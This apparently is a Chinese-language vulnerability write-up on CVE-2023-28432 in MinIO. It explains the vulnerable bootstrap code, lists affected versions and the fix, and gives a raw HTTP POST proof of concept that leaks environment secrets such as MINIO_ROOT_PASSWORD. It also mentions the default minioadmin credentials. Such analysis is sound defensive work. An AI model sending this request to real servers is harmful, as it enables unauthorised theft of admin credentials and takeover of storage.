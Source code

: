 #  CVE-2023-28432 MinIO信息泄露漏洞分析及复现   
0x6270  火线Zone   2023-04-06 17:49  
  
![](https://mmbiz.qpic.cn/mmbiz_png/0Z0LqMyVGaRwEmIYGegWgct433pBo9TjCGtX8QcHHpNTPnNaHVUCjJEiaDAnCFpa0mlBEQNMyc5RlSYGa7NJqibQ/640?wx_fmt=png "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/0Z0LqMyVGaSTQSUvic5S3396sg61xibSrWpU6M1yM4Z3crWLAeSdOCz5ApsA9q9Gg2sHTEga8HWnibUJy3kLOQMtw/640?wx_fmt=png "")  
  
  
**前言**  
  
  
由于传播、利用此文所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，文章作者不为此承担任何责任。  
  
如果文章中的漏洞出现敏感内容产生了部分影响，请及时联系作者及火线安全，望谅解。  
  
  
  
**一、漏洞原理**  
  
  
**漏洞简述**  
  
MinIO是一个用Golang开发的基于Apache License v2.0开源协议的对象存储服务，与 Amazon S3 API 兼容，可用于私有云或公共云。MinIO是一种高性能、高可用的分布式存储系统，可以存储大量数据，并提供高速的数据读写能力。MinIO采用分布式架构，可以在多个节点上运行，实现数据的分布式存储和处理。  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/0Z0LqMyVGaSTQSUvic5S3396sg61xibSrWmVFpfIoVsfibAm8a7LanuR4xLr1ukicHNDQaFgibocQhxo5icqSdPytTgw/640?wx_fmt=png "")  
  
  
MinIO 存在信息泄露漏洞，在集群部署的MinIO中，未经身份认证的远程攻击者通过发送特殊HTTP请求即可获取所有环境变量，其中包括MINIO_SECRET_KEY和MINIO_ROOT_PASSWORD，造成敏感信息泄露，最终可能导致攻击者以管理员身份登录MinIO。  
  
  
**漏洞影响范围**  
  
**供应商：**MinIO  
  
**产品：**MinIO  
  
**确认受影响版本：**RELEASE.2019-12-17T23-16-33Z <= MinIO < RELEASE.2023-03-20T20-16-18Z  
  
**修复版本：**RELEASE.2023-03-20T20-16-18Z  
  
  
**漏洞分析**  
  
本漏洞的漏洞点来自MinIO系统中集群部署配置于/minio/bootstrap路径下，相关代码对HTTP请求的验证缺失，造成信息泄露。  
  
  
在官方Github的安全推送中，首先是影响及补丁信息：  
  
![](https://mmbiz.qpic.cn/mmbiz_png/0Z0LqMyVGaSTQSUvic5S3396sg61xibSrWqjQ5wUBmyUmOwUQibZBSWzzAVxkEdG5tDXSfOaooRQlpQXTVXYk8Reg/640?wx_fmt=png "")  
  
  
在补丁部分，可以看到补丁简述，补丁主要针对bootstrap部分对集群节点间进行token验证。  
  
之后看到漏洞点相关代码。  
```
// minio/cmd/bootstrap-peer-server.go
func (b *bootstrapRESTServer) VerifyHandler(w http.ResponseWriter, r *http.Request) {
  ctx := newContext(r, w, "VerifyHandler")
  cfg := getServerSystemCfg()
  logger.LogIf(ctx, json.NewEncoder(w).Encode(&cfg))
}

// minio/cmd/bootstrap-peer-server.go
func getServerSystemCfg() ServerSystemConfig {
  envs := env.List("MINIO_")
  envValues := make(map[string]string, len(envs))
  for _, envK := range envs {
    // skip certain environment variables as part
    // of the whitelist and could be configured
    // differently on each nodes, update skipEnvs()
    // map if there are such environment values
    if _, ok := skipEnvs[envK]; ok {
      continue
    }
    envValues[envK] = env.Get(envK, "")
  }
  return ServerSystemConfig{
    MinioEndpoints: globalEndpoints,
    MinioEnv:       envValues,
  }
}
```  
  
主要是两个函数 VerifyHandler() 和 getServerSystemCfg() 。  
  
  
VerifyHandler() 函数主要作用为验证处置。  
  
其中CFG字段涉及下列getServerSys  
temCfg()函数，该函数获取服务器系统CFG信息。  
  
  
变量envs为List类型，为MINIO_。变量envValues存放envs的值。  
  
  
之后循环处理将envs输出于envK中。最后返回结构体ServerSystemConfig，包含key：MinioEndpoints和MinioEnv。  
  
  
可以看到与漏洞泄露涉及的MINIO_SECRET_KEY和MINIO_ROOT_PASSWORD相对应。  
  
  
根据官方说明，在MinIO在启动时会从环境变量中读取用户预设的管理员账号和密码，如果省略则默认账号密码为minioadmin/minioadmin。  
  
  
另外，如果开启动Minio时没有设置MINIO_ROOT_USER和MINIO_ROOT_PASSWORD，那么Minio使用默认账号密码minioadmin，这时候再做信息泄露验证会发现读取不到管理员的账号密码，则推断存在默认口令。  
  
  
  
**二、漏洞复现实战**  
  
  
**漏洞复现**  
  
MinIO 官方下载已更新至 RELEASE.2023-03-22T06-36-24Z，无法复现  
  
  
主要可以采用Github旧版本或相关资产。  
  
POC：  
```
POST /minio/bootstrap/v1/verify HTTP/1.1
Host: 
User-Agent: Mozilla/5.0
Upgrade-Insecure-Requests: 1
Accept: */*
Accept-Encoding: gzip, deflate
Accept-Language: en-US;q=0.9
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 0
```  
  
  
根据POC改包，可以看到存在信息泄露，包含内网IP泄露等。  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/0Z0LqMyVGaSTQSUvic5S3396sg61xibSrWicdmUIKvXvq6ZIU9LRnHfbhRUTqvaNqmjFicf0K83bvfToclpPuylUPg/640?wx_fmt=png "")  
  
另外存在POC脚本。可以检测漏洞情况。  
  
链接：  
  
https://github.com/MzzdToT/CVE-2023-28432  
  
  
**漏洞修复**  
  
目前官方已发布安全修复版本，建议更新至RELEASE.2023-03-20T20-16-18Z及以上版本版本  
  
下载链接：https://github.com/minio/minio/releases/tag/RELEASE.2023-03-20T20-16-18Z  
  
另外，存在MinIO自更新项目，会更新至最新版本  
  
链接：  
  
https://github.com/minio/selfupdate  
  
  
  
**结束语**  
  
  
本文主要介绍了CVE-2023-28432 MinIO信息泄露漏洞的原理分析及复现过程，漏洞主要利用在集群部署的MinIO中，未经身份认证的远程攻击者通过发送特殊HTTP请求即可获取所有环境变量，其中包括MINIO_SECRET_KEY和MINIO_ROOT_PASSWORD，造成敏感信息泄露，最终可能导致攻击者以管理员身份登录MinIO。  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/0Z0LqMyVGaSTQSUvic5S3396sg61xibSrWxwlhfzLIZHuSynIHvW5zTCM1Jjvv8rvlJWn4EypeJzL5m7YP1vf5dw/640?wx_fmt=png "")  
  
火线Zone是火线安全平台运营的安全社区，拥有超过20,000名可信白帽安全专家，内容涵盖渗透测试、红蓝对抗、漏洞分析、代码审计、漏洞复现等热门主题，旨在研究讨论实战攻防技术，助力社区安全专家技术成长，2年内已贡献1300+原创攻防内容，提交了100,000+原创安全漏洞。  
  
欢迎具备分享和探索精神的你加入火线Zone社区，一起分享技术干货，共建一个有技术氛围的优质安全社区！  
  
  
  
  
